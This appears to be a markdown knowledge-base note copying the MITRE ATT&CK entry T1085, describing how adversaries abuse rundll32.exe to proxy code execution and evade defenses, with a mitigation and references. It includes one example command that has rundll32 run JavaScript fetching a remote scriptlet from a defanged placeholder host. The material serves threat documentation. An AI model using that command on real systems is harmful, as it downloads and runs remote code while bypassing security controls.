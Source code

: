```yaml
---
alias: T1085
---
```


## T1085

The rundll32.exe program can be called to execute an arbitrary binary. Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of the rundll32.exe process because of whitelists or false positives from Windows using rundll32.exe for normal operations.

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)


### Tactic
- [[Defense Evasion]] (TA0005)
- [[Execution]] (TA0002)

### Platforms
- Windows

### Permissions Required
- User

### Mitigations

| ID | Name | Description |
| --- | --- | --- |
| [[Exploit Protection\|M1050]] | Exploit Protection | Microsoft's Enhanced Mitigation Experience Toolkit (EMET) Attack Surface Reduction (ASR) feature can be used to block methods of using rundll32.exe to bypass whitelisting. (Citation: Secure Host Baseline EMET) |

### Sub-techniques


---
### References

- mitre-attack: https://attack.mitre.org/techniques/T1085
- Trend Micro CPL: https://www.trendmicro.de/cloud-content/us/pdfs/security-intelligence/white-papers/wp-cpl-malware.pdf
- This is Security Command Line Confusion: https://thisissecurity.stormshield.com/2014/08/20/poweliks-command-line-confusion/

